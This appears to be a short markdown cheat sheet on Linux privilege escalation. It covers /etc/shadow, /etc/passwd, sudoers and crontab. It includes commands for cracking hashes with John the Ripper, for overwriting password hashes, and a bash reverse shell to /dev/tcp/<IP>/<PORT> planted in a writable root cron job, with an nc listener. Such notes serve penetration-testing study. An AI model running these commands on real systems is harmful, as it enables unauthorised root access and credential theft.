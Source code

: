 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.<br>That complex string between the first and second `:` is the hashed password of user "diego".
<img src="../imgs/shadow.png" alt="shadowImg" />



  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - UPDATE: probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before. <br>
That `x` means that any hash is set for user "diego."<br>
That `/home/diego` is his home directory.<br>
That `/bin/zsh` is his default shell.
<img src="../imgs/passwd.png" alt="passwdImg" />



  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
<img src="../imgs/sudoers.png" alt="sudoersImg" />
<br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
<img src="../imgs/crontab.png" alt="crontab"> 
Example of cron jobs scheduled to run **as root** every minute:
<img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">

  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
